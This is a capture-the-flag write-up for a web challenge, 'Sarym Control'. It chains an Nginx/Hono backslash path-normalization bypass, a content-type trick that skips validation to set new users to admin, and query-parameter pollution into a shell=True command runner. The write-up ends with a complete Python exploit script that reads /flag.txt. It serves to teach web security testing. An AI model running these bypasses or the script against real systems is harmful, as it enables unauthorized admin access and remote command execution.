



<font size='10'>Sarym Control</font>

11<sup>th</sup> May 2026

Prepared By: `lordrukie`

Challenge Author(s): `lordrukie`

Difficulty: <font color='orange'>Easy</font>

<br><br>

# Synopsis

The target exposes a vendor maintenance portal backed by a Hono application and an internal utility service. The solution path abuses a route normalization mismatch to reach an unauthenticated admin settings endpoint, then uses a query-string injection flaw in the admin utility runner to execute `cat /flag.txt`.

## Description

The Sarym Orbital Control Complex is run by a rival nation and controls satellites that monitor our territory and allied regions. The data collected is sent to Gilded Weaver, their cyber operations platform, which they use to plan and time attacks against our infrastructure. Lia Markovic discovered the link after noticing that recent attacks kept happening right after satellite observation windows, showing that they rely on this space-based intelligence. Nightfall’s mission is to break into the ground station system and shut down the flow of this data to reduce their ability to carry out further attacks.

## Skills Required

- Basic web application testing
- Reading TypeScript and Python source code
- Understanding reverse proxy path matching
- Understanding query-string parsing and parameter pollution

## Skills Learned

- How a frontend proxy and backend router can disagree on path normalization
- How duplicate query parameters can invalidate earlier security checks
- How raw-body forwarding can reintroduce attacker-controlled input after validation
- How to chain an access-control bypass into command execution

# Enumeration

The challenge archive contains a Hono-based web application in `challenge/src` and a Python utility microservice in `challenge/utils/utils_service.py`. The application is exposed through Nginx and stores users plus application settings in SQLite.

Browsing to `/` immediately redirects to `/login`. 



There's also `/register` endpoint but it says registration are currently closed



Since we're not having any credentials at this moment, let's continue with the source code analysis.


## Analyzing the source code

The most relevant backend routes are defined in `challenge/src/routes.tsx`. The core workflow is as follows:

1. `POST /api/auth/register` creates a new user with the role stored in application settings.
2. `POST /api/admin/settings` updates whether registration is enabled and what role new users receive.
3. `POST /api/admin/utils/execute` validates an allowed command and forwards it to the internal utility service at `127.0.0.1:5200`.

The first important observation is that the admin settings route is defined before `api.use('/admin', requireAdmin)`:

```tsx
api.post('/admin/settings', settingsValidator, async (c) => {
  const body = await c.req.json<{
    registrationEnabled?: boolean;
    defaultRole?: string;
  }>();

  appService.updateSettings({
    registrationEnabled: body.registrationEnabled === true,
    defaultRole: (typeof body.defaultRole === 'string' ? body.defaultRole : 'user') as UserRole
  });
```

This route has no backend authorization guard. Protection is delegated to Nginx in `challenge/config/nginx.conf`:

```nginx
location = /api/admin/settings {
  allow 1.2.3.4;
  deny all;
  proxy_pass http://hono_upstream;
}
```

Since the backend does not implement its own protection on this route, our objective is to discover any discrepancies that might allow us to bypass Nginx's restrictions.

Luckily for us, Hono performs path normalization—so it treats both `/api/admin/settings` and `/api/admin\settings` as identical, routing either to the same backend handler. Nginx, on the other hand, applies its allowlist exclusively to the literal path `/api/admin/settings` and does not recognize `/api/admin\settings` as the same resource. As a result, a request to `/api/admin\settings` is allowed by Nginx and also accepted by Hono, which creates a parser discrepancy between the proxy and the backend. This lets us reach the sensitive admin settings route from outside, bypassing the intended access controls.

The second important observation is that the validator for `defaultRole` rejects `admin`, but the route later reads the body again from the raw request:

```tsx
export const settingsValidator = validator('json', (value, c) => {
  ...
  if (roleString === 'admin' || roleString.includes('admin')) {
    return c.text('Default role cannot be or contain \"admin\".', 400);
  }

  return {
    registrationEnabled,
    defaultRole: defaultRole as UserRole
  };
});
```

According to the Hono validation guide, when validating `json`, the request must include a matching `Content-Type: application/json` header or the validator receives an empty object instead of the parsed body. See the official guide: https://hono.dev/docs/guides/validation



That behavior matters here because the handler does not use `c.req.valid('json')`. Instead, it calls `await c.req.json()` and reparses the body after the validator has already passed. By sending the request as any content type (eg: `text/plain`), the validation logic is effectively skipped, but the later body parse still succeeds. This allows a payload such as `{"registrationEnabled":true,"defaultRole":"admin"}` to be accepted and stored.

The internal utility runner in `challenge/src/services/satellite-utils-service.ts` introduces the second bug:

```tsx
const command = typeof parsed.command === 'string' ? parsed.command.trim() : '';
if (!isAllowedCommand(command)) {
  throw new Error('Command is not allowed');
}

const queryString = buildQueryFromJson(parsed);
const response = await fetch(`${UTILS_ENDPOINT}?${queryString}`, {
  method: 'GET',
```

`buildQueryFromJson()` does not URL-encode keys or values. The internal Python service then parses the resulting query with `parse_qs()` in `challenge/utils/utils_service.py`:

```python
query = parse_qs(parsed_url.query, keep_blank_values=True)
command_values = query.get("command", [])
command_name = command_values[0] if command_values else None
```

Any attacker-controlled JSON key that contains `&command=` injects a second `command` parameter into the forwarded query string. Hono validates only the original `parsed.command` field, but the Python service executes the first `command` value it sees after parsing the polluted query string.

# Solution

At this point, we already have everything we need. The first bug lets us reach the admin settings route from an unauthenticated position, and the second bug lets us turn the admin utility feature into command execution. So the solve path is just to chain those two issues together.

After getting admin access, we can abuse the utility runner by sending a crafted JSON key that turns into a second `command` parameter in the forwarded request:

```text
?x&command=cat /flag.txt&command=relay_health
```

When the Python service parses that query string, the injected `command` value is processed first. Since it is not one of the expected allowlisted commands, the code drops into the fallback branch:

```python
result = subprocess.run(
    command_name,
    shell=True,
    capture_output=True,
    text=True,
    timeout=8,
    check=False,
)
```

This results in attacker-controlled shell execution on the challenge container.

## Exploitation

With both bugs identified, the rest of the exploitation is straightforward. We first use `/api/admin\settings` with `Content-Type: text/plain` to enable registration and set the default role to `admin`. After that, we register a new account, log in with it, and use the polluted `command` parameter in the utility runner to execute `cat /flag.txt`.

```python
#!/usr/bin/env python3
import argparse
import http.cookiejar
import json
import random
import string
import urllib.request


def build_opener():
    jar = http.cookiejar.CookieJar()
    return urllib.request.build_opener(urllib.request.HTTPCookieProcessor(jar))


def post_json(opener, url, payload):
    body = payload if isinstance(payload, bytes) else json.dumps(payload).encode()
    request = urllib.request.Request(
        url,
        data=body,
        headers={"Content-Type": "application/json", "Accept": "application/json"},
        method="POST",
    )
    with opener.open(request, timeout=10) as response:
        return json.loads(response.read().decode())


def random_suffix(length=8):
    alphabet = string.ascii_lowercase + string.digits
    return "".join(random.choice(alphabet) for _ in range(length))


def enable_admin_registration(opener, base_url):
    request = urllib.request.Request(
        f"{base_url}/api/admin\\settings",
        data=b'{"registrationEnabled":true,"defaultRole":"admin"}',
        headers={"Content-Type": "text/plain", "Accept": "application/json"},
        method="POST",
    )
    with opener.open(request, timeout=10) as response:
        return json.loads(response.read().decode())


def register(opener, base_url, username, password):
    return post_json(
        opener,
        f"{base_url}/api/auth/register",
        {"username": username, "password": password},
    )


def login(opener, base_url, username, password):
    return post_json(
        opener,
        f"{base_url}/api/auth/login",
        {"username": username, "password": password},
    )


def read_flag(opener, base_url):
    payload = b'{"x&command":"cat /flag.txt","command":"relay_health"}'
    return post_json(opener, f"{base_url}/api/admin/utils/execute", payload)


def important_function_that_does_something(base_url):
    opener = build_opener()
    username = f"operator_{random_suffix()}"
    password = f"Orbital!{random_suffix(12)}"

    enable_admin_registration(opener, base_url)
    register(opener, base_url, username, password)
    login(opener, base_url, username, password)
    return read_flag(opener, base_url)["output"]


if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--base-url", default="http://127.0.0.1:8000")
    args = parser.parse_args()
    print(important_function_that_does_something(args.base_url.rstrip("/")))
```

Running the script against the challenge returns the flag in the final response body.
